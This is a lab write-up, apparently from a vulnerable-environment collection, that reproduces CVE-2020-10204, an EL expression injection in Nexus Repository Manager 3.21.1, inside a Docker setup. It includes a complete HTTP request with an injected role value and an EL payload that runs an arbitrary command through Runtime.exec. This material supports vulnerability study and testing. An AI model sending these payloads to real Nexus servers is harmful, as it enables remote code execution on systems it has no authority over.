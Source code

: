 # Nexus Repository Manager 3 远程命令执行漏洞（CVE-2020-10204）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md

## 漏洞环境

执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要访问更新角色或创建角色接口，所以我们需要使用账号密码`admin:admin`登录后台。

## 漏洞复现

登录后台后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/extdirect HTTP/1.1
Host: 192.168.1.3:8081
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.34435456726224034
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.3:8081
Referer: http://192.168.1.3:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.34435456726224034; NXSESSIONID=cedf848f-d881-4b58-ac24-9e9c3ece40bc
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```

![](1.png)

参考<https://github.com/jas502n/CVE-2020-10199>，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}`即可成功执行任意命令：

![](2.png)
